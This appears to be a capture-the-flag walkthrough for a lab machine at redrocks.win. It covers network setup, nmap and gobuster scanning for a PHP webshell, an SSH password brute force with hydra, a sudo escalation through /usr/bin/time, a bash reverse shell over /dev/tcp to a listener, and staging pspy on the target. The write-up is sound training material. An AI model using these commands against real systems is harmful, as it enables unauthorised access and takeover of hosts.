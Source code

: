 # Capture the Flag Walkthrough - Detailed Initial Steps

## Network Setup & Reasoning

### Machine Configuration
1. **Attacker Machine (Kali)**
   - Two network adapters:
     - Host-only adapter (target machine communication)
     - NAT adapter (internet access for tools/packages)

2. **Target Machine**
   - Single network adapter (host-only)

### Why Host-Only Networking?
- **Key Advantage**: Automatic DHCP distribution
- **Contrast**: Internal Networks don't inherently handle DHCP
- **Practical Benefit**: No need for initial target box access to configure networking

## Target Discovery & Port Scanning

### Finding Your IP
```bash
hostname -I
```
**Important Note**: You'll likely see two IPs:
- Public IP (NAT interface)
- Private IP (Host-only interface)
- **Use the private IP for this challenge**

### Initial Network Scan
```bash
sudo nmap -v --min-rate 10000 $targetIP/24 | grep open
```
**Note**: Replace $targetIP with your host IP from step 1

### Detailed Port Scan
```bash
sudo nmap -v -sV -sC -oN nmap $targetIP
```
**Parameter Breakdown**:
- `-v`: Verbose output for detailed information
- `-sV`: Service versioning (e.g., identifies Apache 2.4.41 instead of just "port 80 open")
- `-sC`: Script scan (runs default scripts to identify common vulnerabilities)
- `-oN`: Output Normal format (creates readable reference file)

**Scan Results**:
- Port 80: Apache HTTP
- Port 22: OpenSSH
- Initial focus: Web service (SSH offers limited initial attack surface)

## Web Application Analysis

### Initial Frontend Investigation
1. Navigate to `http://$targetIP`
2. **Key Observation**: Plain HTML display suggests either:
   - Non-existent/inexperienced frontend developer
   - CSS resolution issues

### Source Code Analysis
1. **WordPress Indicators**:
   - Explicit comment: "Proudly powered by WordPress"
   - DNS prefetch: `//s.w.org` (WordPress's static resource CDN)

### Troubleshooting CSS Issues (To verify we're not resolving correctly to redrocks.win)
1. **Using Browser Dev Tools (F12)**:
   - Check Network tab
   - Look for failed CSS file requests
   - Note domain: `redrocks.win`

2. **DNS Resolution Fix**:
   ```bash
   # Add to /etc/hosts:
   $targetIP    redrocks.win
   ```

## Discovering the Backdoor

### Initial Clues
1. **"Hello Blue" Link Analysis**:
   - Source code reveals "Looking For It?" (oddly capitalized)
   - Suggests potential Local File Inclusion (LFI) vulnerability

2. **Key References in Code**:
   - Mr. Miessler → Author of Seclists (security assessment collections)
   - Mention of inability to read → Hints at LFI backdoor
   - Environment: Apache PHP (WordPress standard)

### Install Seclists (only necessary if not present on system)
```bash
sudo apt install seclists
```

### Backdoor Hunt Using Gobuster
```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/CommonBackdoors-PHP.fuzz.txt \
    -x .php -u http://redrocks.win/ -o dir80.txt -z
```

**Result Found**:
```
/NetworkFileManagerPHP.php (Status: 500) [Size: 0]
```

### Result Analysis
- Google search for "NetworkFileManagerPHP.php" reveals:
  - GitHub results mentioning webshells
  - Direct reference in seclists
  - Likely being used as LFI backdoor (confirmed by earlier hint)



## Exploitation Steps

### Initial Access
```bash
hydra -l john -P passlist.txt 192.168.56.102 ssh
sshpass -p 'CURRENT_PASSWORD' ssh john@192.168.56.102
```

### Privilege Escalation Setup
```bash
sudo -u ippsec /usr/bin/time /bin/bash
cd /dev/shm/
```

### Creating Reverse Shell
1. **Create shell script:**
```bash
echo '#!/bin/bash
bash -c '\''bash -i >& /dev/tcp/192.168.56.101/9001 0>&1'\''' > shell.sh
chmod +x shell.sh
```

2. **Set up listener (on attacking machine):**
```bash
nc -lvnp 9001
```

3. **Execute shell (on target machine):**
```bash
./shell.sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### Terminal Stabilization
```bash
# Press ctrl+z
stty raw -echo;fg
# Press ENTER twice
export TERM=xterm
```

## Advanced Privilege Escalation with pspy

### On Attacking Machine
```bash
# Download pspy (using v1.2.0 due to GLIBC compatibility)
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s

# Start temporary HTTP server
python3 -m http.server 80
```

### On Target Machine
```bash
wget [TARGETMACHINE IP]/pspy64s
chmod +x pspy64s
./pspy64s
```

## Important Notes
- Always ensure you have proper authorization before performing penetration testing
- These commands should be used responsibly and ethically
- Some steps may need to be adjusted based on specific target configurations
- Always verify commands before execution to prevent unintended consequences

[Additional steps to be documented based on specific CTF requirements]
